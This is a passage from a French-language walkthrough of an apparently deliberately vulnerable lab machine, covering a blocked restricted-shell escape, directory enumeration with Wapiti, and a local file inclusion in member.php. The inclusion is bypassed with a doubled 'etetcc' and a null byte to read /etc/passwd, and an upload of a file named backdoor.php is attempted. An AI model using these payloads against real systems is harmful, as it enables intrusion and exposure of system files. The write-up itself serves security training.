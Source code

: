 Hmmm drôle de shell. Et il semble que l'on ne puisse pas le bypasser :  

```plain
$ ssh john@192.168.1.39 -C /bin/bash
john@192.168.1.39's password: 
*** forbidden path over SSH: "/bin/bash"
This incident has been reported.
$ scp backdoor.php john@192.168.1.39:/tmp/
john@192.168.1.39's password: 
*** forbidden path over SSH: "scp -t /tmp/"
This incident has been reported.
lost connection
```

J'ai choisi de retourner sur le site et d'utiliser le module *buster* de *Wapiti* :  

```plain
[*] Lancement du module buster
Found webpage http://192.168.1.39/images/
Found webpage http://192.168.1.39/index
Found webpage http://192.168.1.39/logout.php
Found webpage http://192.168.1.39/member
Found webpage http://192.168.1.39/logout
Found webpage http://192.168.1.39/member.php
Found webpage http://192.168.1.39/john/
Found webpage http://192.168.1.39/database.sql
Found webpage http://192.168.1.39/john/john
```

En se rendant sur ces pages on comprend que */john/john* est en réalité */john/john.php* qui est la page affichée une fois que l'on est identifié...  

L'utilisateur *robert* a aussi sa page *robert/robert.php*.  

L'URL de la page quand on est connecté est du type */member.php?username=nom\_de\_l\_utilisateur* ce qui laisse supposer que *member.php* fait une inclusion de *$user/$user.php*.  

Si on saisie l'adresse */member.php?username=/etc/passwd* on obtient le message *User //passwd* comme si le *etc* avait été retiré...  

Ce qui se confirme avec l'adresse */member.php?username=/etetcc/passwd*  

```plain
Warning: include(/etc/passwd//etc/passwd.php) [function.include]: failed to open stream: Not a directory in /var/www/member.php on line 14

Warning: include() [function.include]: Failed opening '/etc/passwd//etc/passwd.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/member.php on line 14
```

 Il ne reste plus qu'à se débarrasser du doublon avec */member.php?username=/etetcc/passwd%00* et là bingo:  

```plain
loneferret:x:1000:1000:loneferret,,,:/home/loneferret:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/kshell
robert:x:1002:1002:,,,:/home/robert:/bin/kshell
```
